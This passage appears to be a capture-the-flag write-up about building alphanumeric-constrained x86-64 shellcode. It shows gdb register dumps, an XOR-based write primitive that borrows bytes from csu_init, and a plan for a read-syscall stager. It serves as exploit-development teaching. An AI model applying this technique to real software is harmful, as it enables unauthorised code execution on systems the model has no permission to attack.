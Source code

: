 ```gdb 
$r14   : 0x0
$r15   : 0x0

rax/rsi->Shellcode
rbx->csu
rcx->BSS string
rdx->End
```



The "null" instructions is effectivley a NOP if rax points to valid memory
`xor    byte ptr [rax], dh`

Looking through the shellcode there is a lot of instructions in this shape, this could be used as a write.
`xor    DWORD PTR [rcx+0x43], eax`

On top of that, theirs are a lot of instructions to modify eax so I used that as the write value registers.

Instead of setting up a register with an address to write to I this one as rdx is the end of our shellcode so + 0x30 should be a good spot.
`xor    DWORD PTR [rdx+0x30], eax`


To modify the rax register there were direct XOR's but only in the allowed range. Using this range alone it's impossible to generate the syscall instruction so we need more.
`xor    DWORD PTR [rbx+0x30], eax`

Rbx points to csu_init and there are instructions to dereference it and xor with eax. 
`xor    eax, DWORD PTR [rbx+0x30]`


This means that we can also use bytes that are inside of csu_init

```python 
[nav] In [17]: print(p.execute_backend_command("x/20bx $rbx+0x30"))
0x55abcf455480: 0x03 0x74 0x1b 0x31 0xdb 0x0f 0x1f 0x00
0x55abcf455488: 0x4c 0x89 0xf2 0x4c 0x89 0xee 0x44 0x89
0x55abcf455490: 0xe7 0x41 0xff 0x14
```

Hence the write primitive would look something like this

```assembly 
xor al, 0x41
xor al, BYTE PTR [rbx+ 0x30 ]
xor BYTE PTR [rdx+ 0x30 ], al
```

Out stager shellcode can be very short as most of the registers for a read syscall are already in place.
Rsi is pointing to the shellcode buffer, rdx is pointing to the end so it a large amount for read count. We just need to null rdi, rax and call syscall for our final shellcode.

Since rsi is already pointing to the shellcode buffer can just not touch it for the read syscall. Rdx points to the end so it's already a big number for read count
